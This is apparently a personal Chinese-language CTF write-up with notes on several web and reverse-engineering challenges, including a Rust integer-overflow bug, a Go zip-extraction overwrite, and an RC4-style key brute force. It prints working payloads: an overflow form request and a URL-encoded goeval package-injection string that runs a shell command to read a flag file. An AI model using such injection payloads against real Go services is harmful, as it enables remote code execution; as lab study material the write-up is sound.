 
# web
### 象棋王子
前端题,找到jsfuck控制台直接输
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230618224300.png)

### 电子木鱼
为什么负数不能积累到cost里捏
```rust
#[post("/upgrade")]
async fn upgrade(body: web::Form<Info>) -> Json<APIResult> {
    if GONGDE.get() < 0 {
        return web::Json(APIResult {
            success: false,
            message: "功德都搞成负数了，佛祖对你很失望",
        });
    }

    if body.quantity <= 0 {
        return web::Json(APIResult {
            success: false,
            message: "佛祖面前都敢作弊，真不怕遭报应啊",
        });
    }

    if let Some(payload) = PAYLOADS.iter().find(|u| u.name == body.name) {
        let mut cost = payload.cost;

        if payload.name == "Donate" || payload.name == "Cost" {
            cost *= body.quantity;
        }

        if GONGDE.get() < cost as i32 {
            return web::Json(APIResult {
                success: false,
                message: "功德不足",
            });
        }

        if cost != 0 {
            GONGDE.set(GONGDE.get() - cost as i32); //存在整数溢出,
        }

        if payload.name == "Cost" {
            return web::Json(APIResult {
                success: true,
                message: "小扣一手功德",
            });
        } else if payload.name == "CCCCCost" {
            return web::Json(APIResult {
                success: true,
                message: "功德都快扣没了，怎么睡得着的",
            });
        } else if payload.name == "Loan" {
            return web::Json(APIResult {
                success: true,
                message: "我向佛祖许愿，佛祖借我功德，快说谢谢佛祖",
            });
        } else if payload.name == "Donate" {
            return web::Json(APIResult {
                success: true,
                message: "好人有好报",
            });
        } else if payload.name == "Sleep" {
            return web::Json(APIResult {
                success: true,
                message: "这是什么？床，睡一下",
            });
        }
    }

    web::Json(APIResult {
        success: false,
        message: "禁止开摆",
    })
}
```

---
整数溢出捏
```bash
quantity=214748365&name=Cost
```
i32有符号32为整数

### babygo
#go
路由点
- 上传非go文件
- 解压文件
- 存在eval函数,但是需要power=admin
- 存储user信息到文件里

思路:上传文件->解压后覆盖user.gob完成伪造

首先搭起来go环境后运行该程序,修改为admin权限后运行即可看到伪造的user.gob文件

```go
	r.GET("/unzip", func(c *gin.Context) {
		session := sessions.Default(c)
		if session.Get("shallow") == nil {
			c.Redirect(http.StatusFound, "/")
		}
		userUploadDir := session.Get("shallow").(string) + "uploads/"
		files, _ := fileutil.ListFileNames(userUploadDir)
		destPath := filepath.Clean(userUploadDir + c.Query("path"))
		for _, file := range files {
			if fileutil.MiMeType(userUploadDir+file) == "application/zip" {
				err := fileutil.UnZip(userUploadDir+file, destPath)
				if err != nil {
					c.HTML(200, "zip.html", gin.H{"message": "failed to unzip file"})
					return
				}
				fileutil.RemoveFile(userUploadDir + file)
			}
		}
		c.HTML(200, "zip.html", gin.H{"message": "success unzip"})
	})
```
没有注意到path导致没覆盖成功

```go
eval, err := goeval.Eval("", "fmt.Println(\"Good\")", c.DefaultQuery("pkg", "fmt"))//"",要执行的代码,要导入的包
```


*payload*
```js
/backdoor?pkg=os/exec"%0A"fmt"%0A)%0A%0Afunc%09init(){%0Acmd:=exec.Command("cat","/ffflllaaaggg")%0Aout,_:=cmd.CombinedOutput()%0Afmt.Println(string(out))%0A}%0Avar(a="1
```

#goeval逃逸
[原理分析](https://www.gem-love.com/2022/07/25/goeval%E4%BB%A3%E7%A0%81%E6%B3%A8%E5%85%A5%E5%AF%BC%E8%87%B4%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C/#undefined)
> Go 标准库中没有提供 eval 函数。但是，你可以使用一些第三方库来实现类似的功能
```go
os/exec"
"fmt"
	)

func	init(){
cmd:=exec.Command("cat","/ffflllaaaggg")
out,_:=cmd.CombinedOutput()
fmt.Println(string(out))
}
var(a="1
```
payload url解码
# reverse
### PZGalaxy
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230619145617.png)
Leaf函数接收date(输入),enc数组,进行运算得到

```js
    function Leaf(k, p) {
      var s = [], j = 0, x, res = '';
      for (var i = 0; i < 256; i++) {
        s[i] = i;
      }
      for (i = 0; i < 256; i++) {
        j = (j + s[i] + k.charCodeAt(i % k.length)) % 256;
        x = s[i];
        s[i] = s[j];
        s[j] = x;
      }
      i = 0;
      j = 0;
      for (var y = 0; y < p.length; y++) {
        i = (i + 1) % 256;
        j = (j + s[i]) % 256;
        x = s[i];
        s[i] = s[j];
        s[j] = x;
        res += String.fromCharCode(p.charCodeAt(y) ^ s[(s[i] + s[j]) % 256]);
      }
      return res;
    }
    for(var i=20230000;i<20239999;i++){

    var enc = ['¦', 'p', ':', 'Ü', '\x92', 'Ã', '\x97', 'ó', '\x1A', 'ß', '\b', 'Ö', 'A', ' ', '5', '\x90', '{', '\x06', 'Ô', '÷', 's', '_', '\x1D', ':', 'I', 'L', 'C', 'X', 'Ñ', '¹', 'O', '\x99', '\x85', '3', 'à', 'i', '|'];
      flag = Leaf(i.toString(), enc.join(''));
      if(flag.substring(0, 4) ==  "flag")
        console.log(flag)
    }


```

遍历数字得到flag

### confuse_re


# pwn

# crypto

# Misc


---
## *相关wp*
https://www.o2takuxx.com/index.php/2023/02/28/vnctf-2023-web/



2023-06-18   22:40